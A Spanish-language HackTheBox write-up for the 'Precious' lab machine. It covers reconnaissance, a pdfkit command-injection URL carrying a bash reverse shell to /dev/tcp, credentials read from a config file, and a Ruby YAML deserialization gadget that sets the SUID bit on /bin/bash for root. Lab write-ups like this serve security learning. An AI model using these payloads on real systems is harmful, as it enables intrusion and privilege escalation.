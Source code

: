 ```yaml
---
layout: post
title : "Precious - HackTheBox"
author : elc4br4
image : /assets/images/HTB/Precious-HackTheBox/Precious.jpg
optimized_image : /assets/images/HTB/Precious-HackTheBox/Precious.jpg
tags : [ Linux, HackTheBox ]
description : En esta ocasión resolveremos una máquina Easy de la plataforma HackTheBox, en la que aprovecharemos una vulnerabilidad de pdfkit para ganar acceso y escalaremos privilegios a través de yaml deserialization en un archivo ruby.
---
```


🤔En esta ocasión resolveremos una máquina Easy de la plataforma HackTheBox, en la que aprovecharemos una vulnerabilidad de pdfkit para ganar acceso y escalaremos privilegios a través de yaml deserialization en un archivo ruby🤔.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como de costumbre lo primero es comenzar con el reconocimiento de puertos usando la herramienta nmap.

```bash
# Escaneo de puertos nmap
-------------------------
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

La máquina tiene dos puertos abiertos, el puerto 80 y el puerto 22, pero necesito averiguar más información sobre ellos, así como la versión que corren cada uno o lo que se ejecuta en cada puerto.

Esto lo hago a través de un escaneo nmap un poco más avanzado.

```bash 
# Escaneo nmap más detallado
----------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Dominio `precious.htb`.

Añado el dominio al archivo hosts de mi máquina local.

Accedo al dominio desde el navegador para ver que hay en el servidor web.

Al acceder encuentro lo siguiente:

![](/assets/images/HTB/Precious-HackTheBox/web.png)

Pruebo a introducir una url con mi dirección ip de la interfaz tun0 (es decir, la de la VPN).

Pero me arroja un error:

![](/assets/images/HTB/Precious-HackTheBox/web2.png)

Se me ocurre ejecutar un servidor de python y volver a probar lo mismo.

```bash
# Python3 server
----------------
python3 -m http.server 8081
```

![](/assets/images/HTB/Precious-HackTheBox/web3.png)

Y al darle a submit se me abre la siguiente ventana.

![](/assets/images/HTB/Precious-HackTheBox/web4.png)

Descargo el archivo pdf y lo analizo con la herramienta `exiftool`.

![](/assets/images/HTB/Precious-HackTheBox/exiftool.png)

Al analizar el archivo puedo ver que ha sido generado por `pdfkit v0.8.6`.

# Explotación [#](explotación) {#explotación}

Por lo que busco en google información al respecto en busca de vulnerabilidad existentes.

Y buscando encuentro el siguiente recurso:

[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

```bash
# En el enlace podemos ver un ejemplo de explotación.
http://example.com/?name=#{'%20`sleep 5`'}
```

Por lo que si sustituyo la parte sleep por una reverse shell podría obtener acceso al sistema.

```bash
# Reverse shell
http://10.10.14.27:8081/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.27/443 0>&1"`'}
```

Introduzco la reverse shell en el servidor web y obtengo la conexión en mi oyente de netcat.

![](/assets/images/HTB/Precious-HackTheBox/shell.png)

Enumerando un poco puedo ver que existe un directorio bajo el nombre de .bundle donde encuentro unas credenciales del usuario harry.

```bash
bash-5.1$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Uso las credenciales para conectarme a través de ssh.

```bash
-bash-5.1$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
-bash-5.1$ whoami
henry
-bash-5.1$ hostname
precious 
```

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

A continuación toca escalar privilegios, por lo que ejecuto el comando `sudo -l`.

```bash
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Como se puede apreciar, puedo ejecutar como root sin contraseña el binario `ruby` y el fichero `update_dependencies.rb`.

Primero leo el archivo `update_dependencies.rb` y este es su contenido.

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

El script carga el archivo `dependencies.yml` por lo que al verlo se me ocurre que podría ser vulnerable a yaml deserialization.

Por lo que busco información al respecto y encuentro este artículo.

[https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

Creo un archivo llamado dependencies.yml en la ruta /home/harry con el siguiente contenido:

```yml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: chmod u+s /bin/bash
          method_id: :resolve 
```

Añado la línea `git_set: chmod u+s /bin/bash` para que al ejecutar el archivo `update_dependencies.rb` cargue el archivo `dependencies.yml` y ejecute el comando que he introducido. 

Lo ejecuto:

```bash
-bash-5.1$ sudo /usr/bin/ruby /opt/update_dependencies.rb 
```

Una vez ejecutado:

```bash
-bash-5.1$ bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# whoami
root
```

Y listo, ya he escalado privilegios al usuario root.

Máquina pwneada!!!